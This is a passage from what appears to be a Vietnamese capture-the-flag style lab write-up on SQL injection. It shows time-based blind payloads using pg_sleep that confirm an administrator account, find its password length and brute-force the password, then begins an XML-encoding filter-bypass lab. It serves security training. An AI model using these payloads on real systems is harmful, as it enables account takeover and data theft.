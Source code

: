 ```SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4''```


==>Có tồn tại.

-Tìm xem có tồn tại user tên administrator trong users không.

Payload: ```' || (SELECT CASE WHEN(username = 'administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```


![alt text](./img/lab14-6.png)

==>Có luôn.

-Giờ bắt đầu đi tìm password của nó.

-Xác định độ dài của password.

Payload: ```' || (SELECT CASE WHEN(username = 'administrator' AND LENGTH(password) > 1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```

+Cho cái payload này vào intruder rồi tự động hóa.

![alt text](./img/lab14-7.png)


==>Password có độ dài 20.

-Bruteforce password thui:

```' || (SELECT CASE WHEN(username='administrator' AND SUBSTRING(password, 1, 1)='a') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--```


## Lab: SQL injection with filter bypass via XML encoding

**END goal** biểu diễn SQLi lấy dữ liệu từ người dùng sau đó đăng nhập tài khoản đó.

-Trước đó cần biết XML encoding là gì:

    • Khi server nhận dữ liệu từ client (form, request, cookie, etc.), đôi khi dữ liệu đó được parse (giải mã) qua XML parser để xử lý.

    • Trước khi dữ liệu được chèn vào SQL, parser sẽ chuyển các mã XML đặc biệt thành ký tự thật.


🔐 Tại sao XML encoding giúp bypass filter?

Giả sử server có filter chặn từ ', OR, =...` bằng cách so sánh chuỗi input ban đầu (chưa giải mã). Nhưng nếu bạn mã hóa input như sau:

```TrackingId=xyz&#x20;OR&#x20;1=1-- ```

    • Server không thấy từ OR rõ ràng trong input gốc → không chặn.
    Nhưng sau khi decode → nó lại trở thành:

    ```xyz OR 1=1--```

    → Thực thi SQL như bình thường → bypass thành công!


==>Sử dụng extension Hackvertor để bypass WAF (Web Application Firewall)

- Ở lab đã mô tả có SQLi ở chức năng check stock, bấm vào đó:
```